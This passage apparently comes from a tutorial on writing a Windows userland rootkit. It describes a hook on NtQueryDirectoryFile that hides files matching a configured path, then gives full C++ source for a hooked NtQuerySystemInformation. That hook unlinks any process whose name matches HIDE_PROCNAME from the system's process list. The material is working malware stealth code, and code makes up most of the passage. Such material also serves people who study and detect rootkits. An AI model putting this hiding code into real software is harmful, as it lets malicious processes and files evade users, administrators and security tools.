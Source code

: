 it uses [`GetFinalPathNameByHandleW`](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-getfinalpathnamebyhandlew) to resolve the actual file path being queried. [`StrStrIW`](https://learn.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-strstriw) performs a case-insensitive comparison to check if the path contains `HIDE_PATH`. if the path matches, it zero-fills the `FileInformation` buffer (effectively hiding the entry). for non-hidden paths, it calls the original `NtQueryDirectoryFile` function. it returns `STATUS_NO_MORE_FILES` for hidden items, simulating an empty directory.

#### hiding the process

to intercept `NtQuerySystemInformation`, we'll write `HookedNtQuerySystemInformation`.

```cpp
NTSTATUS NTAPI HookedNtQuerySystemInformation(SYSTEM_INFORMATION_CLASS SystemInformationClass, PVOID SystemInformation, ULONG SystemInformationLength, PULONG ReturnLength) {
	
	NTSTATUS status = origNtQuerySystemInformation(SystemInformationClass, SystemInformation, SystemInformationLength, ReturnLength);

	if (SystemInformationClass == SystemProcessInformation) {

		SYSTEM_PROCESS_INFORMATION * cur = (SYSTEM_PROCESS_INFORMATION *) SystemInformation;
		SYSTEM_PROCESS_INFORMATION * prev = NULL;
		
		while (cur) {
			if (StrStrIW(cur->ImageName.Buffer, HIDE_PROCNAME)) {
				if (!prev) {
					if (cur->NextEntryOffset) SystemInformation = (LPBYTE) SystemInformation + cur->NextEntryOffset;
					else { 
						SystemInformation = NULL;
						break;
					}
				}
				else {
					if (cur->NextEntryOffset) prev->NextEntryOffset += cur->NextEntryOffset;
					else 
						prev->NextEntryOffset = 0;
				}
			}
			else prev = cur;
			
			if (cur->NextEntryOffset) cur = (SYSTEM_PROCESS_INFORMATION *) ((LPBYTE) cur + cur->NextEntryOffset);
			else break;
		}
		
	}
	
	return status;
}
```
